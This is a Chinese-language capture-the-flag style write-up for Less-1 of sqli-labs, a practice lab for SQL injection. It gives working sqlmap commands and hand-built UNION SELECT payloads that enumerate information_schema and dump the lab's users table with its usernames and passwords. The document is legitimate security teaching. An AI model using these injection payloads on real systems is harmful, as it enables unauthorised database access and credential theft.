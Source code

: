## [[sqli-labs](https://github.com/Audi-1/sqli-labs)] [[Less 01 - Error Based Single Quotes](http://127.0.0.1/Less-1/)] [[解题报告](http://exp-blog.com/2019/06/02/pid-3882/)]

------

## 题目分析


乍一看似乎无从入手，其实注意看提示即可，提示是以数值型的 `id` 作为请求参数。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/01.png)

于是尝试在 url 中追加参数 `?id=1` ，可以看到页面回显了数据库的查询内容：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/02.png)

改变 `id` 的值，可以查到不同的内容，推测此处是注入点：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/03.png)

## 使用 sqlmap 注入（不推荐）

先尝试下使用 sqlmap 解题（非必要不推荐这种解题方式，因为对于学习 sqli 毫无帮助）。

先通过以下命令查询所有数据库：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 --dbs
```

得到 6 个数据库：

```shell
available databases [6]:
[*] challenges
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] sys
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/04.png)

然后通过以下命令查询到当前数据库为 `security`

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 --current-db
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/05.png)

再通过以下命令查询到 `security` 数据库的所有表名：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 -D security --tables
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/06.png)

得到 4 个表名：

```shell
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

很明显，`users` 表应该就是我们的目标表，通过以下命令把整个表的数据 dump 下来：

```shell
sqlmap.py -u http://ctf.env/sqli-labs/Less-1/?id=1 -D security -T users --dump
```

成功脱裤，完成挑战：

```shell
Database: security
Table: users
[13 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | Dumb     | Dumb       |
| 2  | Angelina | I-kill-you |
| 3  | Dummy    | p@ssword   |
| 4  | secure   | crappy     |
| 5  | stupid   | stupidity  |
| 6  | superman | genious    |
| 7  | batman   | mob!le     |
| 8  | admin    | admin      |
| 9  | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
+----+----------+------------+
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/07.png)


## 手工注入（推荐使用 Burp 辅助）

注意标题给出了两个提示：

- Error Based
- Single Quotes

那么尝试在参数后用单引号闭合 `?id=1'` 看下效果：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/08.png)

页面报错，而且从错误信息中，我们注意到两个关键信息：

- 数据库类型是 mysql
- 错误位置是 `'1'' LIMIT 0,1` （其中 `1'` 是我们输入的内容，不难推测**输入值会自动被单引号包围**）

结合异常信息，猜测这条 SQL 应该形如：

```sql
$sql = "select username, password from user where id = '" + $_GET[id] + "' LIMIT 0,1"
```

这种 SQL 要注入其实不难：

- 先闭合单引号
- 然后用 `union` 关联查询其他表的信息 （列数可以通过 `order by` 测试，本题测试到是 3 列）
- 最后再通过行注释处理掉末尾的 `LIMIT` 即可 （ MySql 的行注释有两种方式：`#` 和 `-- `，注意**后一种方式末尾至少有一个空格** ）

于是可以构造 payload 为 ：`?id=1' union select 1, 2, 3 #` 或 `?id=1' union select 1, 2, 3 --+`

> 注意，上面的 payload 只适用于 Burp Suite。若通过浏览器注入，需要对几个特殊字符做 URL 编码：空格要编码成 `%20` ，`#` 要编码成 `%23` 。特别地，`-- ` 刚好在 URL 末尾，而末尾的空格会被浏览器自动删掉，即使编码也不会保留，此时需要利用 URL 把 `+` 识别为空格的特性，使用 `--+` 代替。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/09.png)

可以看到第 2、3 列被回显到页面，因此可以利用这两列查询我们想要的信息。

例如查询 mysql 的版本以及当前数据库，可以构造 payload 如下：

```sql
?id=1' union select 1, version(), database() #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/10.png)

而通过这个 payload 可以查询当前数据库下的所有表名：

```sql
?id=1' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema = (select database()) #
```

> 这里用到 mysql 的 `group_concat` 函数，其作用是把某一列的所有行值串接成一个字符串。而 `information_schema` 是系统表，可以查到数据库中的所有表结构。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/11.png)

从表名推测，`users` 就是我们的目标表，再次构造 payload 查询该表的表结构：

```sql
?id=1' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/12.png)

找到目标列名 `username` 和 `password` ，最后构造如下 payload 实现脱裤，完成挑战：

```sql
?id=1' union select 1, group_concat(username), group_concat(password) from users #
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/sqli-labs/Less%2001%20-%20Error%20Based%20Single%20Quotes/imgs/13.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
